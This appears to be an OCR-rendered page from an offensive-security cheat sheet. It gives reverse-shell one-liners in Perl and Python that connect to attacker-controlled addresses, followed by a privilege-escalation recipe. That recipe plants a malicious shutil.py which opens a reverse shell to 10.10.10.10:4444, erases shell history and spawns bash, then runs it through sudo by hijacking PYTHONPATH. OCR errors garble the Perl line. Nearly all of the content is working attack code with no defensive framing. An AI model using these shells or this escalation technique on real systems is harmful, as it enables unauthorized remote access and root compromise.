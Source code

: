 ```text
perl -MIO -e '$c=new IO: :Socket: :INET(PeerAddr,''attackerip:4444'') ;STDIN-fdopen($
c,r) ;$~- fdopen($c,w) ;system$_ while ;'
```

### Python language

```text
python -c 'import socket, subprocess, os; s=socket. socket (socket. AF_INET,
socket.SOCK_STREAM); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
Or


```text
check sudoer script content like:

#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
You have new mail in /var/mail/waldo

and create file for got root as shutil.py contains:

import os
import pty
import socket

lhost = "10.10.10.10"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
   def close(*args):
       return
   def __init__(self, *args):
       return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()

and run sudoer script with 

sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
```
